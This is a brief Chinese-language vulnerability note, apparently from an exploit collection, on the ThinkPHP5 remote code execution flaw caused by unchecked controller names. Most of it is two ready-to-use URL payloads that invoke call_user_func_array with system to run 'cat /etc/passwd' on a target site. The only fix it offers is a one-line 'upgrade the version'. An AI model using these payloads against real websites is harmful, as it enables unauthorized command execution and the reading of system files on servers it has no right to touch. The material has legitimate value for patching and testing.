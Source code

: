### 一 漏洞描述
ThinkPHP5 存在远程代码执行漏洞。该漏洞由于框架对控制器名未能进行足够的检测，攻击者利用该漏洞对目标网站进行远程命令执行攻击

### 二 漏洞利用
```
/?s=index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /etc/passwd

/index.php/?s=index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /etc/passwd
```

### 三 漏洞修复
升级版本
